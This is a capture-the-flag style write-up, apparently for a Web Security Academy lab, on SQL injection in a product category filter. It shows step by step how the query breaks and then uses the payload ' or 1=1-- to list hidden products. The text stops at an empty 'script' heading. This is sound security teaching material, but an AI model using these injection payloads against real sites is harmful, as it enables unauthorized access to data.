 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
- lab contains a SQL injection vulnerability in the product category
- When the user selects a category, the application carries out a SQL query like the following
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
- Goal : display one or more unreleased products 
# Solving the lab 
- the url of the lab is like this
```
https://0aa100aa03460e178277bf9200a400f4.web-security-academy.net/filter?category=Lifestyle
```
- first thing to try is to break the webapp so lets try this
```
https://0aa100aa03460e178277bf9200a400f4.web-security-academy.net/filter?category=' 
```
- and we got internal server error and breacked the app
- the sql query became like this 
```
SELECT * FROM products WHERE category = ''' AND released = 1
```
- now we need to make the rest of the query commencted like this
```
SELECT * FROM products WHERE category = ''--' AND released = 1
```
- and the server will read the query like this 
```
SELECT * FROM products WHERE category = ''
```
- now we need to display all the products in any category, including categories that they don't know about
- as we learnt from the academics we can insert (or 1=1 ) so our query will look like this
```
SELECT * FROM products WHERE category = '' or 1=1--' AND released = 1
```
- and we solved the lab with this url
```
https://0aa100aa03460e178277bf9200a400f4.web-security-academy.net/filter?category=' or 1=1--
```
# Solving the lab with script
